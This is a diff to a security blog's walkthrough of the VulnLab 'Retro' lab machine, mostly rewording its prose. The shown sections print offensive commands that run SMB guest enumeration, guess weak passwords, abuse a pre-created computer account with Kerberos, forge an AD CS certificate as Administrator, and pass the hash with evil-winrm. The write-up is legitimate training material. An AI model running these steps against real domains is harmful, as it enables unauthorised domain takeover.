

Update

Changed region(s): [[0.0, 0.3333, 0.8691, 0.9394], [0.0, 0.0303, 0.807, 0.2727]]

diff --git a/content/WriteUp/Machines/VulnLab/Retro/index.md b/content/WriteUp/Machines/VulnLab/Retro/index.md
@@ -13,7 +13,7 @@ description: Comprehensive walk-through of the Retro machine, demonstrating a tr
 
 ## Nmap
 
-We began the engagement by performing a full TCP port scan against the target:
+The engagement began with a full TCP port scan against the target host:
 
 ```
 sudo nmap -p- -sCV 10.10.87.108 -oA nmap/10.10.87.108-full-tcp
@@ -94,17 +94,9 @@ The scan results clearly indicated that the target was a Windows Domain Controll
 
 Additionally, the SSL certificates revealed the domain name retro.vl and confirmed that the host was DC.retro.vl.
 
-With enum4linux we can detect that guest access is enabled
-
-```bash
-enum4linux-ng 10.10.87.108 -A
-```
-
-![](Pasted%20image%2020260213193445.png)
-
 ## SMB
 
-Using the guest account we proceeded with SMB enumeration by listing the available SMB shares:
+Initial SMB enumeration was performed using anonymous access.:
 
 ```bash
 nxc smb 10.10.87.108 -d retro.vl -u "guest" -p "" --shares
@@ -112,7 +104,8 @@ nxc smb 10.10.87.108 -d retro.vl -u "guest" -p "" --shares
 
 ![](Pasted%20image%2020260213193733.png)
 
-The share named "Trainees" appeared to be interesting so we accessed it with smbclient and downloaded the file called "Important.txt".
+
+Among the available shares, Trainees appeared noteworthy. The share was accessed using smbclient, and the file Important.txt was downloaded:
 
 ```bash
 smbclient //10.10.87.108/Trainees -U RETRO/Guest
@@ -123,11 +116,11 @@ smb: \> get Important.txt
 
 ### Weak credentials
 
-The file was a note to the Trainees and mentioned the existence of a user on the domain with weak credentials.
+The Important.txt file contained a note referencing a domain user with weak credentials.
 
 ![](Pasted%20image%2020260213194145.png)
 
-With impacket we listed all the domain users:
+With impacket all the domain users were listed:
 
 ```
 impacket-lookupsid Guest@10.10.87.108
@@ -135,9 +128,9 @@ impacket-lookupsid Guest@10.10.87.108
 
 ![](Pasted%20image%2020260213195357.png)
 
-During this process, we identified a user named trainee, which clearly correlated with the note.
+During enumeration, a user named trainee was identified, which correlated directly with the note.
 
-Out of pure intuition, we attempted to use the username as the password, and it turned out to be valid credentials. Using the newly obtained credentials, we listed the shares again:
+Authentication was attempted using the username as the password. The credentials trainee:trainee were valid and SMB shares were enumerated again with them:
 
 ```bash
 nxc smb 10.10.87.108 -d RETRO -u "trainee" -p "trainee" --shares
@@ -145,7 +138,7 @@ nxc smb 10.10.87.108 -d RETRO -u "trainee" -p "trainee" --shares
 
 ![](Pasted%20image%2020260213201905.png)
 
-A new share named Notes became accessible. We connected to it and downloaded a file named `ToDo.txt`:
+A new share named Notes became accessible. It was accessed and the file `ToDo.txt` was downloaded:
 
 ```
 smbclient //10.10.87.108/Notes -U RETRO/trainee
@@ -156,11 +149,11 @@ smb: \> get ToDo.txt
 
 ## Pre created cumputer accounts abuse
 
-The note revealed the existence of a pre-created computer account associated with the finance department. It also suggested that the account was abandoned.
+The `ToDo.txt` file referenced a pre-created computer account associated with the finance department and suggested that it had been abandoned.
 
 ![](Pasted%20image%2020260213203022.png)
 
-We gathered additional information using LDAP:
+Additional LDAP enumeration was conducted:
 
 ```bash
 ldapsearch -H ldap://10.10.87.108 -x -D "trainee@RETRO.VL" -w "trainee" -b "DC=RETRO,DC=VL" "user" | grep dn
@@ -168,7 +161,7 @@ ldapsearch -H ldap://10.10.87.108 -x -D "trainee@RETRO.VL" -w "trainee" -b "DC=R
 
 ![](Pasted%20image%2020260213204903.png)
 
-We identified a computer account named `BANKING$`. Since the note suggested that the account had been abandoned, we attempted authentication using a similar pattern as before.
+A computer account named `BANKING$` was identified. Since the note suggested that the account had been abandoned, authentication was attempted using the previously identified predictable password pattern.
 
 ```bash
 nxc smb 10.10.87.108 -d RETRO -u "BANKING$" -p "banking"
@@ -176,9 +169,9 @@ nxc smb 10.10.87.108 -d RETRO -u "BANKING$" -p "banking"
 
 ![](Pasted%20image%2020260213205403.png)
 
-The credentials were valid; however, since the account had not been used for a long time, the machine password was out of sync with the Domain Controller.
+The credentials were valid; however, the machine account password was out of sync with the Domain Controller due to prolonged inactivity.
 
-Instead of resetting the password (which would have been more intrusive), we abused the behavior of pre-created computer accounts by requesting a Kerberos TGT using Impacket, as described in the following blog post:
+Instead of resetting the password, which would have been more intrusive, the pre-created computer account was abused by requesting a Kerberos TGT using Impacket.
 
 - https://trustedsec.com/blog/diving-into-pre-created-computer-accounts
 
@@ -195,7 +188,7 @@ export KRB5CCNAME=BANKING$.ccache
 > sudo apt update && sudo apt install krb5-user
 > ```
 
-We verified that the ticket was successfully imported using:
+This successfully imported a valid Kerberos ticket:
 
 ```
 klist
@@ -203,12 +196,12 @@ klist
 
 ![](Pasted%20image%2020260213212818.png)
 
-This allowed us to authenticate using Kerberos without modifying the account password.
+This allowed to authenticate using Kerberos without modifying the account password.
 
 ## Active Directory Certificate Services (AD CS)
 ### AD CS Enumeration
 
-After gaining control over the machine account, we enumerated ADCS using Certipy:
+With control over the machine account, AD CS enumeration was performed using Certipy:
 
 ```bash
 certipy-ad find -u trainee@10.10.87.108 -p trainee
@@ -216,43 +209,44 @@ certipy-ad find -u trainee@10.10.87.108 -p trainee
 
 ![](Pasted%20image%2020260213213616.png)
 
+The enumeration revealed a vulnerable certificate template that could be abused for privilege escalation.
+
 ### Exploiting AD CS
 
-We proceeded to request a certificate impersonating the Domain Administrator:
+A certificate request was submitted to impersonate the Domain Administrator account:
 
 ```bash
 certipy-ad req -k -ca retro-DC-CA -upn Administrator -template RetroClients -target dc.retro.vl -key-size 4096
 ```
 
-The parameters were used as follows:
-- `-k` used Kerberos authentication with the cached TGT.
-- `-ca retro-DC-CA` specified the Certificate Authority.
-- `-upn Administrator` targeted the Domain Administrator account.
-- `-template RetroClients` leveraged the vulnerable template.
-- `-target dc.retro.vl` specified the CA server.
+Parameter usage:
+- `-k` uses Kerberos authentication with the cached TGT.
+- `-ca retro-DC-CA` specifies the Certificate Authority.
+- `-upn Administrator` targets the Domain Administrator account.
+- `-template RetroClients` leverages the vulnerable template.
+- `-target dc.retro.vl` specifies the CA server.
 
 ![](Pasted%20image%2020260213214729.png)
 
-The request succeeded, and we obtained a PFX certificate for the Domain Administrator account.
+The request succeeded, resulting in a PFX certificate for the Domain Administrator account.
 
 ### Authentication as Administrator
 
-We authenticated using the obtained certificate:
+The obtained certificate was used for authentication:
 
 ```bash
 certipy-ad auth -pfx administrator.pfx -username Administrator -domain retro.vl -dc-ip 10.10.87.108
 ```
-
 ![](Pasted%20image%2020260213215017.png)
 
-This allowed us to retrieve the NT hash of the Domain Administrator account.
+This resulted in the retrieval of the NTLM hash of the Domain Administrator account.
 
 ## Foothold as Administrator
 
-Finally, we leveraged the Pass-the-Hash technique using Evil-WinRM:
+Finally, the Pass-the-Hash technique was used to obtain an administrative shell via Evil-WinRM:
 
 ```bash
-evil-winrm -i 10.10.87.108  -u Administrator -H 252fac7066d93dd009d4fd2cd0368389
+evil-winrm -i 10.10.87.108  -u Administrator -H <hash>
 ```
 
 ![](Pasted%20image%2020260213215150.png)

diff --git a/content/WriteUp/Machines/VulnLab/Lock/index.md b/content/WriteUp/Machines/VulnLab/Lock/index.md
@@ -12,7 +12,7 @@ description: A Windows-based challenge where an exposed Gitea access token leads
 ![alt text](featured.png)
 
 ## Nmap
-First, as always, the challenge was started by running Nmap to enumerate the server's ports and services.
+First, as always, the challenge started by running Nmap to enumerate the server's ports and services.
 
 ```
 $ sudo nmap -p- -sCV 10.10.66.156 -oA nmap/fulltcp-Lock
